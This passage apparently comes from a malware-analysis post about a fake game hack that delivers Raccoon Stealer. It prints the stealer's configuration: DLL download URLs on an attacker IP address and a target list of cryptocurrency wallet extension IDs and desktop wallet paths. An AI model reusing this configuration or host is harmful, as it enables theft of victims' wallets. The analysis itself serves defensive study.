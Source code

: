 ![](/assets/images/posts/2023-05-01-FREE-APEX-LEGENDS-HACK-but-really-raccoon-stealer/Initial_POST_Response.png)

The full contents of the configuration file can be seen below:
```
libs_nss3:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/nss3.dll
libs_msvcp140:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/msvcp140.dll
libs_vcruntime140:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/vcruntime140.dll
libs_mozglue:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/mozglue.dll
libs_freebl3:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/freebl3.dll
libs_softokn3:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/softokn3.dll
ews_meta_e:ejbalbakoplchlghecdalmeeeajnimhm;MetaMask;Local Extension Settings
ews_tronl:ibnejdfjmmkpcnlpebklmnkoeoihofec;TronLink;Local Extension Settings
libs_sqlite3:http://185.181.10.208/aN7jD0qO6kT5bK5bQ4eR8fE1xP7hL2vK/sqlite3.dll
ews_bsc:fhbohimaelbohpjbbldcngcnapndodjp;BinanceChain;Local Extension Settings
ews_ronin:fnjhmkhhmkbjkkabndcnnogagogbneec;Ronin;Local Extension Settings
wlts_exodus:Exodus;26;exodus;*;*partitio*,*cache*,*dictionar*
wlts_atomic:Atomic;26;atomic;*;*cache*,*IndexedDB*
wlts_jaxxl:JaxxLiberty;26;com.liberty.jaxx;*;*cache*
wlts_binance:Binance;26;Binance;*app-store.*,*.fp;-
wlts_coinomi:Coinomi;28;Coinomi\Coinomi\wallets;*;-
wlts_electrum:Electrum;26;Electrum\wallets;*;-
wlts_elecltc:Electrum-LTC;26;Electrum-LTC\wallets;*;-
wlts_elecbch:ElectronCash;26;ElectronCash\wallets;*;-
wlts_guarda:Guarda;26;Guarda;*;*cache*,*IndexedDB*
wlts_green:BlockstreamGreen;28;Blockstream\Green;*;cache,gdk,*logs*
wlts_ledger:Ledger Live;26;Ledger Live;*;*cache*,*dictionar*,*sqlite*
ews_ronin_e:kjmoohlgokccodicjjfebfomlbljgfhk;Ronin;Local Extension Settings
ews_meta:nkbihfbeogaeaoehlefnkodbefgpgknn;MetaMask;Local Extension Settings
sstmnfo_System Info.txt:System Information:
|Installed applications:
|
wlts_daedalus:Daedalus;26;Daedalus Mainnet;*;log*,*cache,chain,dictionar*
wlts_mymonero:MyMonero;26;MyMonero;*;*cache*
wlts_xmr:Monero;5;Monero\\wallets;*.keys;-
wlts_wasabi:Wasabi;26;WalletWasabi\\Client;*;*tor*,*log*
ews_metax:mcohilncbfahbmgdjkbpemcciiolgcge;MetaX;Local Extension Settings
ews_xdefi:hmeobnfnfcmdkdcmlblgagmfpfboieaf;XDEFI;IndexedDB
ews_waveskeeper:lpilbniiabackdjcionkobglmddfbcjo;WavesKeeper;Local Extension Settings
ews_solflare:bhhhlbepdkbapadjdnnojkbgioiodbic;Solflare;Local Extension Settings
ews_rabby:acmacodkjbdgmoleebolmdjonilkdbch;Rabby;Local Extension Settings
ews_cyano:dkdedlpgdmmkkfjabffeganieamfklkm;CyanoWallet;Local Extension Settings
ews_coinbase:hnfanknocfeofbddgcijnmhnfnkdnaad;Coinbase;IndexedDB
ews_auromina:cnmamaachppnkjgnildpdmkaakejnhae;AuroWallet;Local Extension Settings
```